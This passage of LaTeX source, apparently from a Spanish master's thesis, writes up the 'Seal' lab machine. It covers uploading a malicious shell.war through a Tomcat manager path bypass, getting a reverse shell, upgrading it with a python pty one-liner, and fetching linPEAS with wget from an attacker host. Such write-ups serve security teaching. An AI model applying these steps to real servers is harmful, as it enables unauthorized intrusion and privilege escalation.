    
\includegraphics[width=0.95\textwidth]{images/machines/seal/war-editado.png}
    \caption{Seal: Subida de \texttt{shell.war} exitosa}
    \label{fig:seal-war-editado}
\end{figure}

Al subir el archivo, en la \textit{uri} \texttt{/manager/status/../;/html} ahora aparece otra nueva \textit{uri} que es \texttt{/shell}. Al ir a esa \acrshort{uri}, se ejecuta nuestro archivo \texttt{shell.war} y se nos crea una conexión con la máquina, como se puede apreciar en la figura \ref{fig:seal-nc-tomcat}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.6\textwidth]{images/machines/seal/nc-tomcat.png}
    \caption{Seal: Conexión con el servidor \textit{Tomcat} con usuario \textit{tomcat}}
    \label{fig:seal-nc-tomcat}
\end{figure}

Ya que el shell que obtenemos es algo rudimentario (no nos permite utilizar las flechas de movimiento, o funciones de búsqueda), decidimos mejorarlo. Para ello se realizan los siguientes pasos:
\begin{enumerate}
    \item Primero, investigamos si está \textit{Python} instalado, utilizando el comando \texttt{which python python2 python3}. Con esto descubrimos que podemos utilizar \textit{Python 3}.
    \item Ejecutamos el siguiente comando en la máquina víctima: \texttt{python3 -c `import pty; pty.spawn(``/bin/bash``)`}
    \item En la máquina, pulsamos los botones \texttt{Ctrl + z} para dormir el proceso actual.
    \item Luego, en la máquina host (no la víctima) se escribe \texttt{stty raw -echo}.
    \item Volvemos a activar el proceso dormido anteriormente con \texttt{fg}.
    \item Se crean las siguientes variables de entorno \texttt{export SHELL=bash \&\& export TERM=xterm-256color}
    \item Por último, se ejecuta el comando \texttt{reset}.
\end{enumerate}

Tras realizar esto, logramos tener un shell completamente funcional.\\

A continuación se decide utilizar la herramienta \textit{linPEAS}\cite{peass}. Para añadir el script a la víctima, se decide levantar un servidor \acrshort{http} temporal en la máquina host que contiene el script \texttt{linpeas.sh}. Esto se hace con el comando:
\begin{lstlisting}[language=bash]
python -m http.server 8000
\end{lstlisting}

Y en la máquina víctima nos lo vajamos con \texttt{wget}.

\begin{lstlisting}[language=bash]
wget http://10.10.14.49:8000/linpeas.sh
\end{lstlisting}

Una vez tenemos el archivo en la máquina víctima, le damos permisos de ejecución (\texttt{chmod +x linpeas.sh}) y lo ejecutamos.\\

El resultado de \textit{linPEAS}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/04_linpeas_tomcat.txt}{Output de \textit{04\_linpeas\_tomcat.txt}}}, encontramos varios posibles vectores de ataque, pero ninguno ha resultado ser explotable. También se han encontrado algunos archivos ``extraños`` como \texttt{/otp/backups/archives/} y \texttt{/otp/backups/playground/} y archivos y procesos del usuario \textit{luis}.\\

\textit{\textbf{Nota}: con linPEAS se ha encontrado que \texttt{/usr/bin/bash} es vulnerable y es explotable para obtener un shell como root, pero se ha decidido no atacar ya que ese vector de ataque es el objetivo de esta máquina, lo que significa que otra persona ya había explotado la máquina y conseguido una shell. Por eso, se ha decidido reiniciar la máquina y dicho vector de ataque ha desaparecido.}\\

Se ha intentado acceder a los archivos de \textit{luis}, como son \texttt{/home/luis/}, \texttt{/home/luis\\/.ssh} o \texttt{/home/luis/documents}, pero no se ha logrado nada, ya que con el usuario actual (\textit{tomcat}) no tenemos permisos.\\

Dada la falta de exito investigando al usuario \textit{luis}, se decide investigar los archivos y directorios ``extraños`` meniconados anteriormete. En \texttt{/otp/backups/playground} se ha encontrado un archivo \texttt{run.yml} (figura \ref{fig:seal-run}). Se ha investigado en \textit{Google} y se ha encontrado que es un \textit{Ansible Playbook}\cite{ansible-playbooks}. Leyendo el archivo \texttt{run.yml}, vemos que realiza un backup del directorio \texttt{/var/lib/tomcat9/webapps/ROOT/admin/dashboard}.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/machines/seal/run-yml.png}
    \caption{Seal: Archivo \texttt{run.yml}}
    \label{fig:seal-run}
\end{figure}


